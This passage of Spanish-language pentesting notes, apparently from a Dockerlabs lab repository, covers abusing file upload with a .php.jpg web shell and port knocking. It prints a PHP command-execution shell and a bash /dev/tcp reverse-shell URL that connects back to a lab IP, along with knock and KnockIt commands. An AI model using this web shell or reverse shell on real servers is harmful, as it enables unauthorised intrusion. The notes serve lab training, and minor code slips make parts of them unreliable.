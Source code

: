 y ejecutar el comando:

referencia, máquina jenkhack - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/jenkhack/image-4.png

-------------------------------------------------------------------------------

## 5.- Si tenemos la posibilidad de subir un archivo .jpg, podemos subir una reverse shell, con la extensión .php.jpg, previamente ver con burp suite sobre las extensiones permitidas.

contenido del archivo:

<?php
system($_GET['cmd]);
?>

o colocarle el reverse shell de php que está en la sección 1.1

ubicamos el directorio donde se guardó el archivo .php.jpg, casi siempre en uploads

entonces para entrar en la máquina hacemos, ejemplo:

http://172.17.0.2/themes/uploads/674e227bb3cce.jpg?cmd=bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'

previamente nos ponemos en escucha con netcat por el puerto 443, para luego hacer clic en el archivo que se subió.

-------------------------------------------------------------------------------

## 6.- Técnica PORT Knocking

es una técnica de seguridad que permite ocultar servicios en un servidor (como SSH) cerrando sus puertos por defecto y abriéndolos solo cuando se envía una secuencia específica de intentos de conexión ("golpes" o knocks). Es útil para evitar escaneos de puertos y ataques automatizados

knock 172.17.0.2 7000 8000 9000 -v

knock 172.17.0.2 22 80 8080 -v

tambiién con la herramienta:

KnockIt

la clonamos:

https://github.com/eliemoutran/KnockIt.git

creamos un entorno virutal (apunte 66) e instalamos:

pip install itertools

forma de uso:

python3 knockit.py -b 192.168.42.177 65535 8888 54111 2>/dev/null

-------------------------------------------------------------------------------
